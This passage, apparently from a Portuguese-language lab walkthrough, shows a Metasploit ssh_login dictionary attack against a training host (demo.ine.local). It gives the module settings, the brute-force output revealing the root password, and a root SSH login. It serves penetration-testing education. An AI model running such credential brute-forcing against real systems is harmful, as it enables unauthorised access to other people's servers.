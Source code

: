 Nós iremos alterar as opções `RHOSTS` para informar o IP do servidor que será atacado, `Userpass_file` para informar o arquivo que contém os usuários e senhas que serão utilizados no ataque, `STOP_ON_SUCCESS` para que o ataque pare quando a senha for descoberta e `VERBOSE` para que o Metasploit mostre todas as tentativas de ataque:

```bash
msf6 auxiliary(scanner/ssh/ssh_login) > set RHOSTS demo.ine.local
RHOSTS => demo.ine.local
msf6 auxiliary(scanner/ssh/ssh_login) > set USERPASS_FILE /usr/share/wordlists/metasploit/root_userpass.txt
USERPASS_FILE => /usr/share/wordlists/metasploit/root_userpass.txt
msf6 auxiliary(scanner/ssh/ssh_login) > set STOP_ON_SUCCESS true
STOP_ON_SUCCESS => true
msf6 auxiliary(scanner/ssh/ssh_login) > set verbose true
verbose => true
```
<div class="page"/>

Agora vamos utilizar o comando `exploit` para iniciar o ataque:

```bash
msf6 auxiliary(scanner/ssh/ssh_login) > exploit

[*] 192.34.159.3:22 - Starting bruteforce
[-] 192.34.159.3:22 - Failed: 'root:'
[!] No active DB -- Credential data will not be saved!
[-] 192.34.159.3:22 - Failed: 'root:!root'
[-] 192.34.159.3:22 - Failed: 'root:Cisco'
[-] 192.34.159.3:22 - Failed: 'root:NeXT'
[-] 192.34.159.3:22 - Failed: 'root:QNX'
[-] 192.34.159.3:22 - Failed: 'root:admin'
[+] 192.34.159.3:22 - Success: 'root:attack' 'uid=0(root) gid=0(root) groups=0(root) Linux demo.ine.local 5.4.0-125-generic #141-Ubuntu SMP Wed Aug 10 13:42:03 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux '
[*] SSH session 1 opened (192.34.159.2:40315 -> 192.34.159.3:22 ) at 2023-02-03 15:52:30 +0530
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Após do comando `exploit` nós temos a senha do usuário "root" que é "attack".

Agora podemos logar no servidor utilizando o usuário "root" e a senha "attack":

```bash
root@INE:~/Desktop# ssh root@demo.ine.local
The authenticity of host 'demo.ine.local (192.34.159.3)' can't be established.
ED25519 key fingerprint is SHA256:usoU91o26EhXVfBuwZIwlQtdpEw/EHXRp7NejBKASWA.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'demo.ine.local' (ED25519) to the list of known hosts.
Ubuntu 16.04.5 LTS
root@demo.ine.local's password: 
Welcome to Ubuntu 16.04.5 LTS (GNU/Linux 5.4.0-125-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
SSH recon dictionary attack lab
root@demo:~# id
uid=0(root) gid=0(root) groups=0(root)
 
```
